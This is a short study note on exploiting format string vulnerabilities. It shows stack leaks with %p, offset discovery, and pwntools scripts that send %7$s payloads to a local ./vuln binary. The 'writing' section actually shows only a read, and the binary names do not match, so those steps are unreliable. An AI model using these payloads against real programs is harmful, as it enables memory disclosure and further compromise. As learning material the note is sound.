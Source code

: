 ## Format String vulnerability

### Resources
> A simple Format String exploit example - bin 0x11 (LiveOverflow)  
> https://www.youtube.com/watch?v=0WvrSfcdq1I  

### Format String
> https://ir0nstone.gitbook.io/notes/types/stack/format-string

### Indentifying a format string vulnerability

Look for Any printf function that takes your input thats first and only parameter.

Using the %p allows you to enumerate the addresses on the stack.

### Finding the index of the user input of the stack

Using the %p multiple times until you can identify your exact offset of your index.

Example:

./vuln

AAAA %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p

We can see in the below result that index #6 is the offset of where our A's are.

AAAA 0xf63d4e2e 0xfff359a0 0x804918c 0xfff35a34 0xf7f33470 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520

Extracting the exact offset for the index selected

./vuln

%6$p

Confirming the offset by reading the user input

AAAA %6$p

### Writing to the stack

Retrieving the base address

```
readelf --all auth
0x08048000 base address of vuln
```

```python
from pwn import *

p = process("./vuln")
base_addr = p32(0x08048000)

buf = b"" 
buf += b"%7$p" + base_addr

p.sendline(buf)
p.interactive()
```

### Reading the value at the address

```
readelf --all auth
0x08048000 base address of vuln
```

```python
from pwn import *

p = process("./vuln")
base_addr = p32(0x08048000)

buf = b"" 
buf += b"%7$s" + base_addr

p.sendline(buf)
p.interactive()
```

